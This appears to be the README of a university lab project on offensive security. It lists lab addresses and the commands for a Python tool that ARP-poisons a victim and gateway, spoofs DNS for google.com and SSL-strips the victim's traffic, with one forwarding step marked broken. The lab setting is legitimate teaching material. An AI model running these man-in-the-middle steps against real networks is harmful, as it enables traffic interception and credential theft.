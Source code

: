 # 2IC80Project
Lab on Offensive Computer Security
"
### Addresses:
Attacker:
10.0.123.4  08:00:27:4f:6a:5d

Victim:
10.0.123.5  08:00:27:23:55:6e

Gateway:
10.0.123.1  52:54:00:12:35:00

### Commands:

See ARP table: `arp`
Clear ARP table: `sudo ip -s -s neigh flush all`

# Run steps separately:
1. ARP poison the victim: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --macVictim "08:00:27:23:55:6e" --ipToSpoof "10.0.123.1"`

2. ARP poison the gateway: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.1" --ipToSpoof "10.0.123.5"`

3. DNS Spoof the victim: `sudo python3 main.py --interface "enp0s10" dnsSpoof --ipVictim "10.0.123.5" --siteToSpoof "google.com"` 

4. SSL Strip the victim: `sudo python3 main.py --interface "enp0s10" sslStrip --ipVictim "10.0.123.5"` 

STILL BROKEN:
5. Forward `sudo python3 main.py --interface "enp0s10" forward --ipVictim "10.0.123.5" --ipToSpoof "142.250.179.174"` _google.com_
